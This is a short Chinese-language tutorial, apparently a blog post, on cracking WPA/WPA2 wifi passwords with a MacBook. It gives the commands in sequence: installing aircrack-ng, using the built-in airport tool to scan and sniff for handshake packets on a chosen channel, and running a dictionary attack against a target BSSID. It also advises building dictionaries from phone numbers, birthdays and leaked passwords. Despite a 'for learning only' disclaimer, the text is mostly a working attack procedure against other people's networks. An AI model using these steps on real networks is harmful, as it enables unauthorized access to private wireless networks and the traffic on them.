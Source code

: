 使用macbook破解WPA/WPA2 wifi密码
文本仅供学习交流。

我使用的系统是macbook pro 15：


安装aircrack-ng
使用homebrew安装，命令：

brew install aircrack-ng
抓包－抓取带密码的握手包
macbook自带了一个wifi工具：airport。

sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport
首先，断开wifi：



查看周围的wifi：

$ /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s


查看本机的无线网卡设备：

$ ifconfig


抓包：

airport可以使用网卡的监听模式抓取周围的无线网络数据包。其中，对我们最重要的数据包是：包含密码的包－也叫握手包。当有新用户或断开用户自动连接wifi时，会发送握手包。有一种攻击方式是reinjecting packet，它可以强制无线路由器重启，这样当用户自动连接时可以获得握手包。

$ sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 6



en0是无线网卡设备；6是要破解wifi的CHANNEL。

静等用户连接wifi，获得握手包。

抓的包，保存在/tmp：


破解wifi密码
获得握手包之后，我们还需要破解加密的密码。

好的密码字典一个，应包含常见的弱密码、手机号、姓名生日组合、各大网站泄露的密码、英语单词等等。如果使用字典破解不了，说明密码还算复杂；暴力穷举更是费时费力。（论复杂密码的重要性）。

$ sudo aircrack-ng -w password.txt -b c8:3a:35:30:3e:c8 /tmp/*.cap
-w：指定字典文件；－b：指定要破解的wifi BSSID。

破解过程：





